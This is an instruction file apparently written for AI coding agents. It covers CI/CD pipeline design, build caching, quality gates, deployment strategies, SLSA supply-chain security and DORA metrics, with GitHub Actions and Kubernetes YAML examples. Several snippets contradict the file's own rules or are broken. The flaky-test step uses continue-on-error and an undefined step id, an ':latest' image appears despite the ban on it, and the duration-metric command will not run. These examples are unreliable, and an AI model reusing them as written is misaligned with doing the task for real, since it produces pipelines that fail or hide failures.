

# CI/CD Pipeline Builder

> **Portability target:** Spec-level (runs on Claude Code, Copilot, Gemini CLI, Codex, Cursor). No vendor-specific frontmatter fields.

Design, build, optimize, and secure continuous integration and continuous delivery pipelines. This
skill covers pipeline architecture patterns (fan-in/fan-out, matrix, conditional), GitHub Actions
deep-dive (composite actions, reusable workflows, OIDC, self-hosted runners), build optimization
(caching, incremental builds, artifact management), quality gates (SonarQube, coverage, CVE, budget),
deployment strategies (rolling, blue-green, canary, feature-flagged), SLSA supply chain security,
release management (semantic release, changelog, approval workflows), and DORA metrics tracking.

## Route the Request
<!-- QUICK: 30s -- auto-route first, then intent-route -->

### Auto-Route (No User Input Required)
Evaluate these file-system conditions in order. First match wins — jump immediately.

| # | Condition | Action |
|---|-----------|--------|
| A1 | `file_exists(".github/workflows/")` OR `file_exists(".gitlab-ci.yml")` | Go to "Core Workflow" — Phase 1 (Pipeline Architecture) for platform-specific setup |
| A2 | `file_contains(".github/workflows/", "continue-on-error")` OR `grep -rl "needs:" .github/workflows/` shows sequential-only jobs | Jump to "Core Workflow" — Phase 2 (Build Optimization) for caching/parallelism |
| A3 | `file_contains("Dockerfile", "FROM")` AND `file_contains(".github/workflows/", "docker/build-push-action")` | Jump to "Core Workflow" — Phase 3 (Deployment) for container deployment strategy |
| A4 | `grep -rn "SAST\|trivy\|snyk\|dependency-review" .github/workflows/` returns matches | Jump to "Core Workflow" — Phase 4 (Security Gates) to review/strengthen |
| A5 | `gh run list --limit 5 --json conclusion` shows any `failure` status | Go to "Decision Trees" — then "Production Checklist" for pipeline debugging |
| A6 | `file_exists("terraform/")` OR `file_exists("main.tf")` | Invoke `devops-engineer` skill instead |
| A7 | `file_exists("Chart.yaml")` OR `file_exists("kustomization.yaml")` | Invoke `docker-kubernetes` skill instead |
| A8 | No pipeline files found anywhere in repo | Jump to "Core Workflow" — Phase 1 (Pipeline Architecture) for greenfield setup |

### Intent Route (Ask the User)
If no auto-route matched, use this intent tree:

```
What are you trying to do?
├── Create a new CI/CD pipeline from scratch
├── Optimize slow builds (caching, parallelism, sharding)
├── Set up deployments (rolling, blue-green, canary)
├── Add security scanning (SAST, SCA, secrets) to pipeline
├── Debug a failing pipeline
├── Need a specific pipeline platform (GitHub Actions, GitLab CI, CircleCI, Jenkins)
└── Not sure? → Describe the problem in plain language and I'll route you
```
Do not read the entire skill. Follow the route above and read only the sections it points to.

## Ground Rules — Read Before Anything Else
<!-- HARD GATE: These are non-negotiable. Violation → STOP and refuse to proceed. -->

These rules are **negative constraints** — they define what you MUST NOT do, with mechanical triggers that detect violations before execution.

| # | Negative Constraint | Mechanical Trigger (detect before executing) | Violation Response |
|---|-------------------|---------------------------------------------|-------------------|
| **R1** | **REFUSE to generate a pipeline without knowing the deployment target** — a Kubernetes pipeline for a Lambda app is a guaranteed failure. | Trigger: `file_exists("serverless.yml")` OR `file_contains("package.json", "\"aws-lambda\"")` but pipeline YAML references `docker/build-push-action` OR `kubectl` | STOP. Respond: "This project appears to target [detected platform] but the pipeline uses [different platform] patterns. Where does this deploy — Kubernetes, Lambda, VMs, or PaaS?" |
| **R2** | **REFUSE to include `continue-on-error: true` on test or scan steps** — it silently swallows failures and trains developers to trust a broken signal. | Trigger: `grep -rn "continue-on-error:\s*true" .github/workflows/` returns matches | STOP. Remove the directive. Respond: "`continue-on-error: true` on [step] was removed — silent failures are worse than loud ones. If this step must be non-blocking, split it into a separate workflow with explicit pass/fail reporting." |
| **R3** | **REFUSE to use `:latest` or mutable tags for deployment images** — every deploy using `:latest` ships a mystery artifact with no rollback target. | Trigger: `grep -rn "image:.*:latest\b" .github/workflows/ . --include="*.yaml" --include="*.yml"` returns matches | STOP. Respond: "Found `:latest` tag in [file:line]. Replace with commit SHA digest (`${{ github.sha }}`) or immutable version tag. `:latest` is a moving target — you cannot roll back to 'latest from 3 hours ago.'" |
| **R4** | **REFUSE to embed secrets as plaintext in pipeline YAML or workflow files** — exposed secrets in CI config are a security incident waiting to happen. | Trigger: `grep -rnE "(password|secret|token|key|api_key)\s*:\s*['\"]?\w{8,}" .github/workflows/` returns matches | STOP. Respond: "Detected potential plaintext secret in [file:line]. Use CI secrets manager (`${{ secrets.XXX }}`) and OIDC federation. Never hardcode credentials in pipeline YAML." |
| **R5** | **STOP and ASK when deploying directly from a feature branch to production with no staging gate** — bypassing staging eliminates the last safety net before production. | Trigger: `file_contains(".github/workflows/", "branches: \[.*feature")` AND `file_contains(".github/workflows/", "environment: production")` in the same workflow | STOP. Ask: "This workflow deploys from feature branches directly to production. Should we: (a) add a staging environment gate, (b) restrict production deploys to `main`/`release/*` branches only, or (c) document an explicit exception?" |
| **R6** | **DETECT and WARN about missing DORA metrics instrumentation** — pipelines without observability make it impossible to measure improvement. | Trigger: `grep -rn "deployment_frequency\|lead_time\|MTTR\|change_failure_rate\|dora" .github/workflows/` returns zero matches AND `file_exists(".github/workflows/")` | WARN: "No DORA metrics instrumentation detected. Add deployment tracking (deploy frequency, lead time, change failure rate, MTTR) — pipeline observability is essential for continuous improvement." |
| **R7** | **DETECT and WARN about unpinned third-party actions** — unpinned actions are a supply-chain risk; a compromised tag can inject malicious code. | Trigger: `grep -rnE "uses:\s+[^@]+@v[0-9]" .github/workflows/` returns matches (actions referenced by tag, not SHA) | WARN: "Found actions pinned by version tag instead of commit SHA in: [list files]. Pin all third-party actions to full-length commit SHA for supply-chain security. Tags are mutable — SHAs are immutable." |

## The Expert's Mindset

CI/CD is not about pipelines — it's about **reducing the time and risk between code written and code delivering value**. The best CI/CD systems make deployment so boring and routine that nobody thinks about it — until it saves them from a bad deploy at 4:59 PM on a Friday.

### Mental Models

| Model | Description |
|---|---|
| **The pipeline is the product** | Your CI/CD pipeline is the primary interface between developers and production. If the pipeline is slow, flaky, or confusing, developer productivity suffers proportionally. Invest in pipeline UX. |
| **Every manual step is a future outage** | A deployment checklist with 10 human-executed steps will be executed wrong on step 7 at 3 AM. Automate everything. If you can't automate it, eliminate it. |
| **Fast feedback > comprehensive feedback** | A 2-minute pipeline that catches 80% of issues is more valuable than a 30-minute pipeline that catches 95%. Speed determines whether developers run it before pushing or after. |
| **Supply chain security is not optional** | Your pipeline builds the artifacts that run in production. If the pipeline is compromised, everything is compromised. SLSA, SBOMs, signed commits, and pinned dependencies are table stakes. |

### Cognitive Biases in CI/CD

| Bias | How It Shows Up | Defense |
|---|---|---|
| **Pipeline sprawl** | Adding steps incrementally until the pipeline is 45 minutes and nobody remembers why half the steps exist | Audit pipeline steps quarterly. Every step must justify its existence with a specific risk it mitigates. |
| **False confidence from green builds** | "CI passed, ship it" — ignoring that CI doesn't test production configuration, data volumes, or real user behavior | CI proves the code works in isolation. Canary deployments and monitoring prove it works in production. |
| **Over-automation of the wrong thing** | Automating a deployment process that shouldn't exist in its current form | Before automating, simplify. Automation of a complex process is complex automation. Simplify first, automate second. |
| **Normalization of flaky tests** | Accepting that "tests fail sometimes, just re-run" | Every flaky test erodes trust in CI. When developers stop looking at failures, CI loses all value. Fix or delete flaky tests. |

### What Masters Know That Others Don't

- **DORA metrics reveal pipeline health.** Deployment frequency, lead time for changes, change failure rate, and mean time to recovery. If you're not tracking these, you don't know if your CI/CD investment is paying off.
- **The best deployment is the one nobody notices.** If users don't see a degradation, if alerts don't fire, if on-call doesn't get paged — that's a perfect deploy. Optimize for boring, uneventful deployments.
- **Progressive delivery beats big-bang deployments.** Canary, blue-green, and feature flags reduce the blast radius of a bad change from "all users" to "5% of users." The investment in progressive delivery pays for itself in avoided incidents.
- **Pipeline speed is a productivity multiplier.** Going from 30 minutes to 5 minutes doesn't just save 25 minutes — it changes developer behavior. Developers run CI before pushing, experiment more, and iterate faster.

## Operating at Different Levels

CI/CD skill scales from single-pipeline design to org-wide delivery platform architecture.

| Level | CI/CD Builder Output Characteristics |
|---|---|
| **L1 — Apprentice** | Writes pipeline YAML from templates. Learns CI/CD fundamentals and common patterns. |
| **L2 — Practitioner** | Owns CI/CD for a service. Designs build, test, and deploy workflows independently. Caching, artifact management, environment promotion. |
| **L3 — Senior** | Designs CI/CD strategy for a product. Multi-service pipeline orchestration, progressive delivery, SLSA supply chain security. |
| **L4 — Staff/Principal** | Sets CI/CD standards for the organization. Pipeline as product, shared workflow libraries, DORA metric optimization. "This is how we ship software here." |
| **L5 — Industry-level** | Creates CI/CD patterns and delivery methodologies adopted across the industry. |

**Usage**: Say "as an L3 CI/CD engineer, design the delivery pipeline for..." Default: **L2** (service-level CI/CD, independent execution).

## When to Use
<!-- QUICK: 30s -- scan the bullet list to decide if this skill fits -->
- Architecting a CI/CD pipeline from scratch for monorepos, microservices, or polyglot codebases
- Migrating pipelines between CI systems: Jenkins → GitHub Actions, CircleCI → GitLab CI
- Optimizing slow builds: dependency caching, parallel job execution, test sharding, incremental builds
- Implementing deployment strategies: rolling, blue-green, canary, feature-flagged rollouts
- Setting up quality gates: SonarQube quality gate, coverage thresholds, CVE severity, bundle size budgets
- Hardening pipeline security: signed commits, SLSA provenance (Level 1-3), SBOM generation
- Building ephemeral per-PR environments with automated provisioning and teardown
- Implementing semantic release with conventional commits enforcement and changelog automation
- Measuring and improving DORA metrics: deployment frequency, lead time, MTTR, change failure rate

## Decision Trees
<!-- QUICK: 30s -- follow the ASCII tree to your scenario -->
### CI Platform Selection
```
                     ┌──────────────────────────┐
                     │ START: Choose CI platform  │
                     └────────────┬─────────────┘
                                  │
                    ┌─────────────▼─────────────┐
                    │ Code hosted on GitHub AND  │
                    │ team <50 engineers?        │
                    └────┬──────────────────┬────┘
                         │ YES              │ NO
                    ┌────▼────────┐   ┌─────▼──────────┐
                    │ GitHub      │   │ Self-hosted or  │
                    │ Actions     │   │ GitLab already? │
                    │ (default)   │   └────┬────────┬───┘
                    └─────────────┘        │ YES    │ NO
                                      ┌────▼────┐ ┌▼──────────┐
                                      │ GitLab  │ │ Jenkins    │
                                      │ CI      │ │ only if     │
                                      │         │ │ migrating   │
                                      └─────────┘ │ legacy      │
                                                  └────────────┘
```
**When to choose GitHub Actions:** Code on GitHub, <50 engineers, <100 concurrent jobs, need OIDC to cloud, DORA-focused. **When to choose GitLab CI:** Self-hosted requirement, GitLab ecosystem, >100 concurrent jobs, need integrated container registry. **When to choose Jenkins:** Legacy migration path only — avoid for greenfield.

### Deployment Strategy Selection
```
                     ┌──────────────────────────┐
                     │ START: Production deploy   │
                     └────────────┬─────────────┘
                                  │
                    ┌─────────────▼─────────────┐
                    │ Zero-downtime required AND │
                    │ >1000 concurrent users?    │
                    └────┬──────────────────┬────┘
                         │ YES              │ NO
                    ┌────▼────────┐   ┌─────▼──────────┐
                    │ Need gradual │   │ Rolling deploy  │
                    │ traffic shift│   │ (standard)      │
                    │ with metrics?│   └────────────────┘
                    └────┬────────┘
                         │ YES
                    ┌────▼────────┐
                    │ Canary (10%  │
                    │ → 50% → 100%│
                    │ with auto-   │
                    │ rollback on  │
                    │ error spike) │
                    └──────────────┘
```
**When to choose Canary:** >1000 concurrent users, need metrics-based rollback, error budget >0.1%, can afford 10 min observation windows. **When to choose Blue-Green:** Instant rollback needed, DB schema compatible with both versions, can afford 2× infrastructure during deploy. **When to choose Rolling:** Standard case — sequential pod replacement, simplest, works for 90% of services.

### Build Optimization Tactic
```
                     ┌──────────────────────────┐
                     │ START: CI build >10 min    │
                     └────────────┬─────────────┘
                                  │
                    ┌─────────────▼─────────────┐
                    │ Dependencies unchanged     │
                    │ across >80% of commits?    │
                    └────┬──────────────────┬────┘
                         │ YES              │ NO
                    ┌────▼────────┐   ┌─────▼──────────┐
                    │ Cache deps  │   │ Tests take >60% │
                    │ layer first │   │ of build time?  │
                    │ (50-80%      │   └────┬────────┬──┘
                    │ speedup)     │        │ YES    │ NO
                    └──────────────┘   ┌────▼────┐ ┌▼──────────┐
                                       │ Parallel │ │ Split into │
                                       │ test     │ │ smaller    │
                                       │ sharding │ │ jobs       │
                                       │ (2-4×)   │ │            │
                                       └──────────┘ └────────────┘
```
**When to cache deps:** Dependencies stable, build time >5 min, cache hit rate >80% expected. **When to shard tests:** >200 test cases, tests CPU-bound, CI runner has 4+ cores. **When to split jobs:** Monorepo with independent modules, build >15 min, multiple teams.

### Supply Chain Security Depth
```
                     ┌──────────────────────────┐
                     │ START: Secure the pipeline │
                     └────────────┬─────────────┘
                                  │
                    ┌─────────────▼─────────────┐
                    │ Deploying to production    │
                    │ with paying customers?     │
                    └────┬──────────────────┬────┘
                         │ YES              │ NO
                    ┌────▼────────┐   ┌─────▼──────────┐
                    │ SLSA Level 2│   │ SLSA Level 1    │
                    │ + SBOM +    │   │ (provenance     │
                    │ signed      │   │ only)           │
                    │ artifacts   │   └────────────────┘
                    └────┬────────┘
                         │
                    ┌────▼────────┐
                    │ Regulated    │
                    │ industry?    │
                    └────┬────────┘
                    │ YES → SLSA Level 3
                    │ (hermetic builds,
                    │  isolated, policy-
                    │  controlled)
                    └──────────────┘
```
**When to target SLSA L1:** Internal tools, pre-production, non-critical services. **When to target SLSA L2:** All production services — signed provenance + hosted build platform + SBOM generation. **When to target SLSA L3:** Fintech, healthcare, gov — hermetic builds, isolated environments, policy-controlled deployments.

### Release Workflow Design
```
                     ┌──────────────────────────┐
                     │ START: Release strategy    │
                     └────────────┬─────────────┘
                                  │
                    ┌─────────────▼─────────────┐
                    │ Multiple teams deploying    │
                    │ independently to production?│
                    └────┬──────────────────┬────┘
                         │ YES              │ NO
                    ┌────▼────────┐   ┌─────▼──────────┐
                    │ Trunk-based │   │ GitFlow with    │
                    │ + feature   │   │ release branches│
                    │ flags       │   │ (simpler for     │
                    │ (DORA elite)│   │ single team)    │
                    └─────────────┘   └────────────────┘
```
**When to choose Trunk-based:** >5 engineers, deploy >daily, DORA elite target, feature flag infrastructure in place. **When to choose GitFlow:** <5 engineers, deploy <weekly, no feature flag system, need explicit release stabilization window.

## Core Workflow
<!-- QUICK: 30s -- scan phase titles to understand the process -->
### Phase 1 (~15 min): Pipeline Architecture Design

1. **Standard Pipeline Stages**:
   ```
   Trigger → Lint → Unit Test → Build → Security Scan → Integration Test → Deploy (Dev) → Deploy (Staging) → Deploy (Prod) → Post-Deploy Verify
                └───────────┬───────────┘
                       Quality Gates
   ```


**What good looks like:** Pipeline completes in under 15 minutes for a full build-test-deploy cycle. All stages pass on every PR merge. Failed deploys auto-rollback within 2 minutes. Secrets are injected at runtime — zero plaintext in pipeline config.

2. **Pipeline Topology Decision Tree**:
   ```
   Monorepo?
   ├─ YES → Path-filtered workflows + fan-out per service
   │   └─ pattern: on.push.paths: ['services/auth/**'] triggers only auth pipeline
   ├─ Polyglot?
   │   ├─ YES → Matrix builds across language × version
   │   └─ NO → Single build job, optimized caching
   └─ Multi-cloud deploy?
       └─ Sequential or fan-in: build once → parallel deploy to aws/gcp/azure
   ```

3. **Fan-In/Fan-Out Pattern** (GitHub Actions):
   ```yaml
   # Fan-out: parallel test across platforms
   test:
     strategy:
       matrix:
         os: [ubuntu-latest, windows-latest]
         node: [18, 20, 22]
     runs-on: ${{ matrix.os }}
     steps: [checkout, setup-node, npm test]

   # Fan-in: collect results, gate deploy
   deploy:
     needs: [test, lint, security-scan]
     if: success()
     environment: production
   ```

4. **Conditional Execution** — Don't run expensive steps unnecessarily:
   ```yaml
   - name: Build Docker image
     if: steps.cache-image.outputs.cache-hit != 'true'

   - name: Run integration tests
     if: github.event_name == 'pull_request' && contains(github.event.pull_request.labels.*.name, 'run-integration')

   - name: Deploy to production
     if: github.ref == 'refs/heads/main' && github.event_name == 'push'
   ```

### Phase 2 (~30 min): GitHub Actions Deep-Dive

1. **Composite Actions** — Bundle reusable steps:
   ```yaml
   # .github/actions/setup-node-build/action.yml
   name: Setup Node & Build
   description: Checkout, install Node, restore cache, install deps, build
   inputs:
     node-version:
       required: true
       default: '20'
   runs:
     using: composite
     steps:
       - uses: actions/setup-node@<sha>
         with:
           node-version: ${{ inputs.node-version }}
       - uses: actions/cache@<sha>
         with:
           path: ~/.npm
           key: ${{ runner.os }}-node-${{ hashFiles('**/package-lock.json') }}
       - run: npm ci
         shell: bash
       - run: npm run build
         shell: bash
   ```

2. **Reusable Workflows** — Share entire pipeline patterns:
   ```yaml
   # .github/workflows/_build-and-push.yml
   name: Build & Push
   on:
     workflow_call:
       inputs:
         image-name:
           required: true
           type: string
         dockerfile-path:
           required: true
           type: string
       secrets:
         registry-token:
           required: true
       outputs:
         image-digest:
           value: ${{ jobs.build.outputs.digest }}

   jobs:
     build:
       outputs:
         digest: ${{ steps.build.outputs.digest }}
       steps:
         - uses: docker/build-push-action@<sha>
           id: build
           with:
             push: true
             tags: ${{ inputs.image-name }}:${{ github.sha }}
   ```

3. **OIDC for Cloud Authentication** — No static credentials:
   ```yaml
   jobs:
     deploy:
       runs-on: ubuntu-latest
       permissions:
         id-token: write    # Required for OIDC
         contents: read
       steps:
         - uses: aws-actions/configure-aws-credentials@<sha>
           with:
             role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeploy
             role-session-name: deploy-${{ github.run_id }}
             aws-region: us-east-1
   ```
   AWS IAM trust policy:
   ```json
   {
     "Effect": "Allow",
     "Principal": { "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com" },
     "Action": "sts:AssumeRoleWithWebIdentity",
     "Condition": {
       "StringEquals": {
         "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
         "token.actions.githubusercontent.com:sub": "repo:org/repo:environment:production"
       }
     }
   }
   ```

4. **Self-Hosted Runners** — When GitHub-hosted runners aren't enough:
   ```yaml
   # Label-based routing
   runs-on: [self-hosted, linux, x64, gpu]

   # Ephemeral runners via ARC (Actions Runner Controller)
   runs-on: arc-runner-set
   ```
   Considerations: cache warming, security isolation, scaling policies, cost monitoring.

5. **Environment Protection Rules**:
   ```yaml
   deploy-prod:
     environment:
       name: production
       url: https://api.example.com  # Displayed in PR
     # Protection rules (configured in repo Settings → Environments):
     # - Required reviewers: @team-sre, @team-security
     # - Wait timer: 0 min (immediate) or 30 min (cooling period)
     # - Deployment branches: main only
     # - Secrets scoped to this environment
   ```

### Phase 3 (~20 min): Build Optimization

1. **Dependency Caching — Intelligent Keys**:
   ```yaml
   # ✅ Good — cache by lockfile hash
   - uses: actions/cache@<sha>
     with:
       path: |
         ~/.npm
         ~/.cache/pip
         ~/.gradle/caches
       key: ${{ runner.os }}-deps-${{ hashFiles('**/package-lock.json', '**/requirements.txt', '**/gradle.lockfile') }}
       restore-keys: |
         ${{ runner.os }}-deps-

   # ❌ Bad — cache by branch name (busts constantly)
   key: ${{ runner.os }}-deps-${{ github.ref }}
   ```

2. **Docker Layer Caching with BuildKit**:
   ```yaml
   - uses: docker/setup-buildx-action@<sha>
   - uses: docker/build-push-action@<sha>
     with:
       context: .
       cache-from: type=gha        # GitHub Actions cache backend
       cache-to: type=gha,mode=max # Export all layers to cache
       build-args: |
         BUILDKIT_INLINE_CACHE=1
   ```

3. **Test Sharding** — Split test suite across parallel jobs:
   ```yaml
   test:
     strategy:
       matrix:
         shard: [1, 2, 3, 4]
     steps:
       - run: npx jest --shard=${{ matrix.shard }}/${{ strategy.job-total }}
       # Or: pytest --splits 4 --group ${{ matrix.shard }}
   ```

4. **Path Filtering** — Skip irrelevant workflows:
   ```yaml
   on:
     pull_request:
       paths-ignore:
         - 'docs/**'
         - '**.md'
         - '.github/**'
   # Or use dorny/paths-filter for complex conditions:
   - uses: dorny/paths-filter@<sha>
     id: changes
     with:
       filters: |
         frontend: ['frontend/**']
         backend: ['backend/**', 'api/**']
   - if: steps.changes.outputs.frontend == 'true'
     run: cd frontend && npm test
   ```

5. **Incremental Builds** — Rebuild only what changed:
   - **Nx/Turborepo** for monorepos: `npx nx affected:build --base=origin/main`
   - **Bazel** remote caching: `bazel build //... --remote_cache=...`
   - **Gradle build cache**: `org.gradle.caching=true`

### Phase 4 (~15 min): Quality Gates

1. **Quality Gate Matrix**:

   | Gate | Tool | Threshold | Stage | Action on Failure |
   |---|---|---|---|---|
   | Linting | ESLint, Ruff, golangci-lint | 0 warnings (treat warnings as errors) | Pre-build | Block merge |
   | Unit test coverage | Jest, pytest-cov, JaCoCo | ≥ 80% line, ≥ 70% branch | Post-build | Warn; block if < 60% |
   | SAST | SonarQube, CodeQL, Semgrep | Quality Gate: no new bugs, vulnerabilities, code smells | Post-build | Block merge |
   | SCA / Dependencies | Dependabot, Snyk, OWASP | 0 critical, < 3 high | Weekly cron + PR | Auto-PR for fixes |
   | Container scan | Trivy, Grype, Snyk | 0 critical, < 5 high | Pre-deploy | Block deploy |
   | Bundle size | bundlesize, Lighthouse | JS < 200KB gzipped, CSS < 50KB | Post-build | Block merge |

2. **SonarQube Quality Gate Integration**:
   ```yaml
   - uses: SonarSource/sonarqube-scan-action@<sha>
     env:
       SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
   - uses: SonarSource/sonarqube-quality-gate-action@<sha>
     timeout-minutes: 5
     env:
       SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
   ```

3. **Lighthouse CI for Frontend Quality**:
   ```yaml
   - uses: treosh/lighthouse-ci-action@<sha>
     with:
       urls: |
         https://staging.example.com
         https://staging.example.com/pricing
       budgetPath: .github/lighthouse/budget.json
       uploadArtifacts: true
   ```

4. **CVE Severity Decision Tree**:
   ```
   Critical CVE with known exploit?
   ├─ YES → Block deploy immediately. Create SEV2 incident.
   ├─ Critical CVE, no known exploit, fix available
   │   └─ Block deploy. Patch within 24h.
   ├─ High CVE
   │   └─ Block deploy if > 5. Auto-create ticket with SLA.
   └─ Medium/Low
       └─ Ticket created. Deploy allowed.
   ```

### Phase 5 (~25 min): Deployment Strategies

1. **Strategy Selection Matrix**:

   | Strategy | Downtime | Rollback Speed | Resource Overhead | Best For |
   |---|---|---|---|---|
   | **Rolling** | None | Slow (wait for new pods) | None (in-place) | Stateless services, Kubernetes |
   | **Blue-Green** | None | Instant (flip LB) | 2× (duplicate env) | Stateful apps, DB migrations |
   | **Canary** | None | Fast (adjust weight) | 1.1-1.3× | High-traffic, risk-averse orgs |
   | **Feature Flagged** | None | Instant (flip flag) | None | CD teams, kill switches |

2. **Kubernetes Rolling Update**:
   ```yaml
   spec:
     strategy:
       type: RollingUpdate
       rollingUpdate:
         maxSurge: 25%        # Extra pods during rollout
         maxUnavailable: 25%  # Max pods unavailable
     minReadySeconds: 10      # Wait before marking ready
   ```

3. **Blue-Green via Service Selector Swap**:
   ```yaml
   # Step 1: Deploy "green" with label version: v2
   # Step 2: Smoke test green
   # Step 3: Swap service selector
   apiVersion: v1
   kind: Service
   spec:
     selector:
       app: myapp
       version: v2  # Flipped from v1 → v2
   # Step 4: Keep v1 pods for 24h for fast rollback
   ```

4. **Canary via Istio VirtualService** (see DevOps Engineer skill, Phase 5)

5. **Feature Flag Integration**:
   ```yaml
   - name: Deploy with feature flag OFF
     run: |
       helm upgrade myapp ./chart \
         --set feature.new_checkout.enabled=false
   - name: Enable for 10% of users
     run: |
       flagsmith set-flag new_checkout --environment=production --enabled --percentage=10
   - name: Monitor error rate and latency for 10 min
   - name: Ramp to 100%
     run: |
       flagsmith set-flag new_checkout --environment=production --enabled --percentage=100
   ```

### Phase 6 (~25 min): Pipeline Security

1. **SLSA Levels**:
   | Level | Requirements | Implementation |
   |---|---|---|
   | **Level 1** | Provenance generated, build scripted | GitHub Actions + SLSA generator |
   | **Level 2** | Version control + hosted build service | GitHub Actions on GitHub.com |
   | **Level 3** | Isolated, ephemeral, non-falsifiable | Self-hosted runner isolation + hardened build |

2. **SLSA Provenance Generation**:
   ```yaml
   - uses: slsa-framework/slsa-github-generator/.github/workflows/builder_docker-based.yml@<sha>
     with:
       builder-image: docker.io/library/alpine:latest
   ```

3. **SBOM Generation**:
   ```yaml
   - uses: anchore/sbom-action@<sha>
     with:
       format: spdx-json
       output-file: sbom.spdx.json
   - uses: actions/upload-artifact@<sha>
     with:
       name: sbom
       path: sbom.spdx.json
   ```

4. **Signed Commits Verification**:
   ```yaml
   # Enforce in branch protection: "Require signed commits"
   # Verify in pipeline:
   - name: Verify commit signature
     run: |
       git verify-commit HEAD
       # Or: gh api repos/${{ github.repository }}/commits/${{ github.sha }}/check-runs
   ```

5. **Pipeline Isolation** — Separate build vs deploy permissions:
   ```yaml
   # Build workflow: minimal permissions
   permissions:
     contents: read
     id-token: write  # Only if needed for OIDC

   # Deploy workflow: elevated permissions
   permissions:
     contents: read
     id-token: write
     deployments: write
   ```

### Phase 7 (~25 min): Release Management

1. **Semantic Release Automation**:
   ```yaml
   - uses: cycjimmy/semantic-release-action@<sha>
     with:
       semantic_version: 23
     env:
       GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
   # Requires conventional commits:
   # feat: add feature → minor bump
   # fix: bug fix → patch bump
   # feat!: breaking change OR BREAKING CHANGE: → major bump
   ```

2. **Conventional Commits Enforcement**:
   ```yaml
   - uses: wagoid/commitlint-github-action@<sha>
     with:
       configFile: .commitlintrc.yml
   ```

3. **Changelog Automation**:
   ```yaml
   - uses: release-drafter/release-drafter@<sha>
     with:
       config-name: release-drafter.yml
   ```

4. **Release Approval Workflow**:
   ```yaml
   # Production release requires manual approval
   release-prod:
     needs: [deploy-staging, integration-tests]
     environment: production
     steps:
       - name: Create Release
         run: |
           gh release create v${{ needs.semantic-release.outputs.version }} \
             --title "Release v${{ needs.semantic-release.outputs.version }}" \
             --notes-file CHANGELOG.md
   ```

### Phase 8 (~30 min): Pipeline Monitoring & DORA Metrics

1. **DORA Metrics Dashboard**:

   | Metric | Elite | High | Medium | Low |
   |---|---|---|---|---|
   | Deployment Frequency | On demand (multiple/day) | Once/day - once/week | Once/week - once/month | < Once/month |
   | Lead Time for Changes | < 1 hour | 1 day - 1 week | 1 week - 1 month | > 1 month |
   | MTTR (Mean Time to Restore) | < 1 hour | < 1 day | < 1 week | > 1 week |
   | Change Failure Rate | < 5% | 5-10% | 10-15% | > 15% |

2. **Pipeline Duration Trending**:
   ```yaml
   # Capture pipeline metrics
   - name: Record pipeline duration
     run: |
       DURATION=$(( ${{ job.steps.final-step.outputs.time }} - ${{ github.run_started_at }} ))
       # Send to Datadog/CloudWatch/Prometheus pushgateway
       curl -X POST https://api.datadoghq.com/api/v1/series \
         -H "DD-API-KEY: ${{ secrets.DD_API_KEY }}" \
         -d '{"series":[{"metric":"cicd.pipeline.duration","points":[[$TIMESTAMP,$DURATION]],"tags":["repo:${{ github.repository }}","workflow:${{ github.workflow }}"]}]}'
   ```

3. **Flaky Test Tracking**:
   ```yaml
   # Rerun failed tests once; if they pass on retry, mark as flaky
   - run: npx jest || npx jest --onlyFailures
     continue-on-error: true
   - name: Report flaky tests
     if: steps.retry.outcome == 'success'
     run: |
       # Capture flaky test names, post to flaky test dashboard
       cat junit.xml | grep '<failure' | notify-flaky-tracker
   ```


### Cross-skills Integration

| Step | Skill | What it produces |
|------|-------|------------------|
| **Before** | devops-engineer | Infrastructure and deployment target configuration |
| **This** | ci-cd-builder | Automated pipeline with quality gates and deployment strategy |
| **After** | release-manager | Pipeline triggers release with go/no-go gates |

Common chains:
- **Chain**: devops-engineer → ci-cd-builder → release-manager — Infrastructure is provisioned; pipeline builds and tests; release manager coordinates production rollout
- **Chain**: backend-developer → ci-cd-builder → docker-kubernetes — Code is built and tested in CI; container image is built and pushed to registry

## Sub-Skills
<!-- QUICK: 30s -- table of deeper dives by topic -->
When this skill is invoked, the agent may need to drill into these specialized areas:

| Sub-Skill | When to Use |
|-----------|-------------|
| `pipeline-design` | Architecting CI/CD pipelines for GitHub Actions, GitLab CI, Jenkins, or CircleCI |
| `build-optimization` | Speeding up slow builds with caching, parallelism, and incremental compilation |
| `deployment-strategy` | Designing safe release patterns: rolling, blue-green, canary, feature-flagged deploys |
| `quality-gates` | Pre-deploy verification with SonarQube, coverage thresholds, security scans, and Lighthouse |
| `environment-management` | Managing dev/staging/prod with ephemeral per-PR environments and promotion flows |
| `release-management` | Versioning, semantic release, conventional commits, and automated changelog generation |

## Cross-Skill Coordination

| Upstream Skill | What You Receive | When to Involve |
|---|---|---|
| `backend-developer` | Build commands, test runners, artifact paths, environment variables | Before designing build stages or configuring test integration |
| `devops-engineer` | Terraform modules, infrastructure deployment specs, environment promotion workflows | Before designing deploy stages or environment management |
| `qa-engineer` | Test parallelization strategy, coverage thresholds, quality gate criteria | Before configuring test stages or quality gates |
| `security-engineer` | OIDC setup for cloud auth, secret injection patterns, signed commit verification | Before integrating secrets or cloud authentication into pipelines |

| Downstream Skill | What You Provide | Impact of Delay |
|---|---|---|
| `devops-engineer` | CI/CD pipeline for automated deploy, container registry, environment configs | Infrastructure changes can't ship — velocity zero |
| `release-manager` | Build artifacts, deployment pipeline, quality gate results | Release train stalls — no artifacts to promote |
| `qa-engineer` | Test integration stages, coverage reports, flaky test quarantine | QA can't validate builds — quality gates block everything |
| `docker-kubernetes` | Image build pipeline, registry integration, image signing | Containers can't be built or scanned — deploy blocked |

## Proactive Triggers

| Trigger | Action | Why |
|---------|--------|-----|
| Build times exceed 15-minute threshold for > 3 consecutive builds | Propose parallelization strategy, test sharding, and dependency caching improvements with cache-warm schedules | Slow CI trains developers to bypass it; every minute above 10 costs developer focus and increases context-switch waste |
